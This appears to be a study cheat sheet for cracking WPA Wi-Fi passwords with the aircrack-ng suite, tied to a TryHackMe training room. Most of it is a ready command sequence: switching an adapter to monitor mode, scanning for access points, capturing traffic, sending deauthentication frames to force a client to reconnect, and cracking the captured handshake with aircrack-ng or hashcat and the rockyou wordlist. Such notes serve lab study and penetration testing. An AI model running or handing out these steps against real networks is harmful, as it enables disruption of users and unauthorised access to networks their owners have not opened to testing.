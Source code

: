 [Wifi Hacking 101](https://tryhackme.com/r/room/wifihacking101?ref=blog.tryhackme.com) | [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)


## setup

1. [Install Aircrack-ng](https://github.com/TurboLabIt/cybersec/blob/main/script/aircrack/install.sh)


## network interfaces

````shell
sudo airmon-ng

````

Alternative:

````shell
iw dev
iw dev wlan0 info

````


## monitor mode

the Wi-Fi interface listens to all wireless traffic on a specific channel, regardless of whether 
it is directed to the device or not.
It passively captures all network traffic within range for analysis without joining a network.

````shell
sudo airmon-ng check kill
sudo airmon-ng start wlan0

````

The interface name in monitor mode is `wlan0mon`.

Alternative:

````shell
sudo ip link set dev wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set dev wlan0 up

````


## recon

MAC == BSSID (Bervice Set Identifier)

````shell
iw dev wlan0 scan

````

Alternative:

````shell
sudo airodump-ng wlan0

````


## capture + deauth attack

Capture:

````shell
sudo airodump-ng -c <network-channel-number> --bssid <access-point-mac-address> -w output-file wifi-capture.cap wlan0

````


As soon as a client is detected (`STATION`):

````shell
sudo aireplay-ng -0 1 -a <access-point-mac-address> -c <client-to-deauth-mac-address> wlan0

````

As soon as the `WPA handshake` is captured, you can stop.


## crack with aircrack

````shell
sudo aircrack-ng -a 2 -b <access-point-mac-address> -w /usr/share/wordlists/rockyou.txt *.cap

````


## crack with hashcat

````shell
aircrack-ng -J wpa-handshake.hccap wifi-capture.cap
/hccap2hccapx.bin wpa-handshake.hccap wpa-handshake.hccapx
hashcat -m 2500 wpa-handshake.hccapx /usr/share/wordlists/rockyou.txt
````
